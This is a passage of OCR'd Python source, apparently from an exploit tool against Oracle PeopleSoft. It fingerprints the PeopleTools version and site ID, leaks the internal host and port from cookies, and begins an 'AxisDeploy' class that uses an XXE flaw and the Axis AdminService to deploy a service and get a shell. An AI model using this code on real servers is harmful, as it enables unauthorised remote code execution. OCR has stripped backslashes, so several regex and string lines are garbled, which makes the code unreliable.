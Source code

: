 ```
        """
        self.version = None
        r = self.get('/PSEMHUB/hub')
        m = self.matches(r, 'Registered Hosts Summary - ([0-9.]+).&lt;/b&gt;')
        if m:
            self.version = m[0]
            o(':', 'PTools version: %s' % self.version)
        else:
            o('-', 'Unable to find version')
    def check_site_id(self):
        """Grabs the site ID and the local port.
        """
        if self.site_id:
            return
        r = self.get('/')
        m = self.matches(r, '/([^/]+)/signon.html')
        if not m:
            raise RuntimeError('Unable to find site ID')
        self.site_id = m[0]
        o('+', 'Site ID: ' + self.site_id)
    def check_local_infos(self):
        """Uses cookies to leak hostname and local port.
        """
        if self.local_port:
            return
        r = self.get('/psp/%s/signon.html' % self.site_id)
        for c, v in self.session.cookies.items():
            if c.endswith('-PORTAL-PSJSESSIONID'):
                self.local_host, self.local_port, *_ = c.split('-')
                o('+', 'Target: %s:%s' % (self.local_host, self.local_port))
                return
        raise RuntimeError('Unable to get local hostname / port')
class AxisDeploy(Recon):
    """Uses the XXE to install Deploy, and uses its two useful methods to get
    a shell.
    """
    def init(self):
        super().init()
        self.service_name = 'YZWXOUuHhildsVmHwIKdZbDCNmRHznXR' #self.random_string(10)
    def random_string(self, size):
        return ''.join(random.choice(string.ascii_letters) for _ in range(size))
    def url_service(self, payload):
        return 'http://localhost:%s/pspc/services/AdminService?method=%s' % (
            self.local_port,
            urllib.parse.quote_plus(self.psoap(payload))
        )
    def war_path(self, name):
        # This is just a guess from the few PeopleSoft instances we audited.
        # It might be wrong.
        suffix = '.war' if self.version and self.version &gt;= '8.50' else ''
        return './applications/peoplesoft/%s%s' % (name, suffix)
    def pxml(self, payload):
        """Converts an XML payload into a one-liner.
        """
        payload = payload.strip().replace('n', ' ')
        payload = re.sub('s+&lt;', '&lt;', payload, flags=re.S)
        payload = re.sub('s+', ' ', payload, flags=re.S)
        return payload
    def psoap(self, payload):
        """Converts a SOAP payload into a one-liner, including the comment trick
        to allow attributes.
        """
        payload = self.pxml(payload)
```
